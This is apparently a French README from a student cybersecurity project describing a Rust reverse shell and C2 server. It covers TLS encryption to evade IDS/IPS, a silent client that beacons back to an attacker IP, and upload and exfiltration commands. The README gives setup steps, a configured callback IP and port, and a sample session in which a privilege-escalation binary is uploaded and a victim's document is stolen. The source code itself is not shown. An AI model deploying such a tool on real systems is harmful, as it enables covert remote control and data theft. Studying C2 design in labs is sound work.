

# Rust Secure Reverse Shell & C2

> **Avertissement** : Ce projet a été développé dans un cadre **éducatif et académique** (Master Cybersécurité) pour étudier le langage Rust, la programmation réseau bas niveau et les mécanismes de Command & Control. L'utilisation de ce code sur des systèmes sans autorisation explicite est strictement interdite.

## Présentation

Ce projet implémente un **Reverse Shell** furtif écrit en **Rust**, piloté par un **Serveur C2 (Command & Control)** multi-threadé.

L'objectif était de concevoir une architecture offensive robuste, capable de contourner les détections réseaux basiques grâce au chiffrement et de garantir l'intégrité des transferts de fichiers binaires. Contrairement aux outils simples (type Netcat), ce projet implémente un protocole applicatif personnalisé encapsulé dans du **TLS**.

### Fonctionnalités Clés

* **Communication Sécurisée** :
    * Tunneling **TLS 1.2/1.3** (chiffrement AES) pour l'évasion IDS/IPS.
    * Encapsulation intégrale en **Base64** : Commandes, retours shell et fichiers sont encodés pour éviter la corruption binaire et les erreurs d'encodage système (UTF-8 vs CP850).
* **Architecture Client (Malware)** :
    * **Furtivité** : Aucune sortie console, gestion silencieuse des erreurs.
    * **Persistance** : Boucle de reconnexion infinie (Beaconing) en cas de perte du serveur.
    * **Cross-Platform** : Compatible Windows (cmd.exe) et Linux (sh).
* **Architecture Serveur (C2)** :
    * **Multi-threading** : Gestion simultanée de plusieurs victimes sans blocage (via `std::thread` et `Arc`).
    * **Robustesse** : Gestion d'erreurs avancée (disque plein, déconnexion inopinée) sans crash du processus.
* **Commandes Avancées** :
    * `upload <local_path>` : Envoie un fichier (ex: virus, outil) du serveur vers la victime. Supporte les binaires (.exe, .dll).
    * `download <remote_path>` : Exfiltre un fichier de la victime vers le serveur.
    * `cd <path>` : Navigation persistante dans le système de fichiers.
    * `Shell` : Exécution de n'importe quelle commande système native.

---

## Architecture Technique

Le protocole repose sur une double encapsulation pour garantir la fiabilité :

1.  **Couche Transport** : TCP/IP.
2.  **Couche Sécurité** : TLS (Certificat x509 auto-signé).
3.  **Couche Application** : Protocole Texte Base64 (évite les problèmes de caractères spéciaux et de fin de ligne).



---

## Installation et Configuration

### Prérequis
* **Rust & Cargo** (Dernière version stable).
* **OpenSSL** (Pour la PKI).
* Dépendances Rust utilisées : `native-tls`, `base64`.

### 1. Génération de l'Identité (PKI)
Le serveur C2 nécessite une identité cryptographique pour monter le tunnel TLS.
Dans le dossier `server_c2`, générez le certificat et la clé privée combinés dans un fichier PKCS#12 :

```bash
# Génération d'un certificat auto-signé valide 1 an (Mot de passe : "password")
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=C2Server" && \
openssl pkcs12 -export -out identity.pfx -inkey key.pem -in cert.pem -passout pass:password
```

### 2. Configuration du Client
Éditez le fichier `reverse_shell/src/main.rs` pour cibler l'adresse IP de votre serveur C2 :

```rust
// Configuration IP/Port du C2
const SERVER_IP: &str = "172.17.0.2"; // IP de l'attaquant (ex: Docker IP)
const SERVER_PORT: &str = "4444";
```

---

## Usage

### Étape 1 : Démarrer le C2 (Attaquant)
Le serveur doit être lancé en premier. Il attend les connexions entrantes.

```bash
cd server_c2
cargo run
# [*] En écoute sur le port 4444 (TLS)...
```

### Étape 2 : Infecter la Victime (Client)
Sur la machine cible (Windows ou Linux), compilez et lancez le client.
*Note : Pour une vraie simulation, utilisez `cargo build --release` pour obtenir un binaire optimisé.*

```bash
cd reverse_shell
cargo run
# (Aucun affichage : le malware tourne en tâche de fond)
```

### Étape 3 : Exemples d'Interaction
Une fois la session établie, vous contrôlez la machine via le terminal du serveur :

```text
[*] Connexion entrante...
[+] Session TLS établie !
Shell> whoami
desktop-victim\admin

Shell> cd C:\Windows\System32
Repertoire change.

Shell> upload exploits/privesc.exe
[+] Upload: Envoi de 45056 octets encodés...
Succes: Fichier uploade.

Shell> download C:\Users\admin\secret.docx
[+] Fichier 'secret.docx' reçu (12044 octets) !
```

---

## Gestion des Erreurs et Robustesse

Ce projet met un point d'honneur à la stabilité opérationnelle :

* **Client** : Si le serveur C2 est injoignable, le client entre en mode sommeil et retente une connexion toutes les 5 secondes indéfiniment. Aucune erreur n'est affichée à l'utilisateur (furtivité).
* **Serveur** : Si une commande échoue (ex: fichier introuvable, déconnexion client), le serveur l'intercepte, affiche un message d'erreur propre et continue de fonctionner sans interruption.
* **Intégrité** : L'utilisation systématique du Base64 empêche les commandes système de corrompre le flux réseau (gestion des sauts de ligne, encodages exotiques).

## Preuve de Concept Sécurité

Toute tentative de connexion non-TLS ou d'analyse réseau (type Wireshark) ne verra que des données chiffrées.
Pour tester le rejet des connexions non sécurisées, vous pouvez utiliser curl :

```bash
curl -v [http://127.0.0.1:4444](http://127.0.0.1:4444)
# Résultat attendu : Connection reset by peer (Le serveur rejette le handshake non-TLS)
```